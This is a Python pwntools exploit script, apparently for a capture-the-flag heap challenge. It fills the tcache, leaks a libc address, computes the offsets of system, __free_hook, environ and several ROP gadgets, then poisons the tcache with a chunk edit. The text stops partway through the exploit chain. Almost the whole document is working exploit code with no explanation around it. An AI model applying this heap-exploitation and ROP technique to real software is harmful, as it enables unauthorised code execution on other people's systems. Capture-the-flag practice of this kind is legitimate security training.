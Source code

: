 Full script:

```python
from pwn import *

p = process("./chall")
# p = remote("103.145.226.168", 30204)
binary = ELF("./chall")

def alloc(idx, size):
  p.sendlineafter(">> ", '1')
  p.sendlineafter(": ", str(idx))
  p.sendlineafter(": ", str(size))

def edit(idx, content):
  p.sendlineafter(">> ", "2")
  p.sendlineafter(": ", str(idx))
  p.sendafter(": ", content)

def show(idx):
  p.sendlineafter(">> ", "4")
  p.sendlineafter("Index: ", str(idx))

def free(idx):
  p.sendlineafter(">> ", "3")
  p.sendlineafter(": ", str(idx))

for i in range(9): alloc(i, 0x80)
# for i in range(8, 10): alloc(i, 0x)
for i in range(8): free(i) # ngisi tcache bin

show(7)
p.recvuntil("Content: ")
libc_leak =  u64(p.recvline()[:-1].ljust(8, '\x00'))
log.info("Libc leak: {}".format(hex(libc_leak)))
libc_base = libc_leak - 0x1ebbe0
log.info("Libc base: {}".format(hex(libc_base)))
libc_system = libc_base + 0x55410
log.info("Libc system: {}".format(hex(libc_system)))
libc_free_hook = libc_base + 0x1eeb28
log.info("Libc __free_hook: {}".format(hex(libc_free_hook)))
libc_environ = libc_base + 0x00000000001ef2e0
log.info("Libc environ: {}".format(hex(libc_environ)))
libc_read = libc_base + 0x111130
log.info("Libc read: {}".format(hex(libc_read)))
pop_rdi = libc_base + 0x0000000000026b72
log.info("Pop rdi: {}".format(hex(pop_rdi)))
pop_rsi = libc_base + 0x0000000000027529
log.info("Pop rsi: {}".format(hex(pop_rsi)))
pop_rdx_rbx = libc_base + 0x0000000000162866
log.info("Pop rdx rbx: {}".format(hex(pop_rdx_rbx)))
pop_rax = libc_base + 0x000000000004a550
log.info("Pop rax: {}".format(hex(pop_rax)))
syscall = libc_base + 0x000000000004b460
log.info("Syscall: {}".format(hex(syscall)))
pop_rcx = libc_base + 0x000000000009f822
log.info("Pop rcx: {}".format(hex(pop_rcx)))
libc_puts = libc_base + 0x0875a0
log.info("Libc puts: {}".format(hex(libc_puts)))

edit(6, p64(libc_environ))
alloc(9, 0x80)
alloc(10, 0x80)

```